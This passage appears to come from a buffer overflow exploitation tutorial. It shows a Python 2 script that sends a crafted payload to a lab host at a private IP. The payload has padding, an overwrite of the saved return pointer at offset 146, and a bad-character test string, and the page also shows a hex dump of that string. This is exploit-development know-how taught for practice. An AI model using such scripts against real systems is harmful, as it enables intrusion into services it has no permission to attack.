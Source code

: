 \newpage

Our Python script, with the generation and saving of a test string, becomes:

```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

badchar_test = ""         # start with an empty string
badchars = [0x00, 0x0A]   # we've reasoned that these are definitely bad

# generate the string
for i in range(0x00, 0xFF+1):     # range(0x00, 0xFF) only returns up to 0xFE
  if i not in badchars:           # skip the badchars
    badchar_test += chr(i)        # append each non-badchar char to the string

# open a file for writing ("w") the string as binary ("b") data
with open("badchar_test.bin", "wb") as f:
  f.write(badchar_test)

buf_totlen = 1024
offset_srp = 146

buf = ""
buf += "A"*(offset_srp - len(buf))    # padding
buf += "BBBB"                         # SRP overwrite
buf += badchar_test                   # ESP points here
buf += "D"*(buf_totlen - len(buf))    # trailing padding
buf += "\n"

s.send(buf)
```

\newpage

Running this:

```
% ./exploit.py
```

The script will spit out a binary file named `badchar_test.bin`. This file
contains every byte from `\x00` to `\xFF` except for `\x00` and `\x0A`.

`xxd`, a command-line hex viewer, is great for viewing such a binary file:

```
% xxd badchar_test.bin
00000000: 0102 0304 0506 0708 090b 0c0d 0e0f 1011  ................
00000010: 1213 1415 1617 1819 1a1b 1c1d 1e1f 2021  .............. !
00000020: 2223 2425 2627 2829 2a2b 2c2d 2e2f 3031  "#$%&'()*+,-./01
00000030: 3233 3435 3637 3839 3a3b 3c3d 3e3f 4041  23456789:;<=>?@A
00000040: 4243 4445 4647 4849 4a4b 4c4d 4e4f 5051  BCDEFGHIJKLMNOPQ
00000050: 5253 5455 5657 5859 5a5b 5c5d 5e5f 6061  RSTUVWXYZ[\]^_`a
00000060: 6263 6465 6667 6869 6a6b 6c6d 6e6f 7071  bcdefghijklmnopq
00000070: 7273 7475 7677 7879 7a7b 7c7d 7e7f 8081  rstuvwxyz{|}~...
00000080: 8283 8485 8687 8889 8a8b 8c8d 8e8f 9091  ................
00000090: 9293 9495 9697 9899 9a9b 9c9d 9e9f a0a1  ................
000000a0: a2a3 a4a5 a6a7 a8a9 aaab acad aeaf b0b1  ................
000000b0: b2b3 b4b5 b6b7 b8b9 babb bcbd bebf c0c1  ................
000000c0: c2c3 c4c5 c6c7 c8c9 cacb cccd cecf d0d1  ................
000000d0: d2d3 d4d5 d6d7 d8d9 dadb dcdd dedf e0e1  ................
```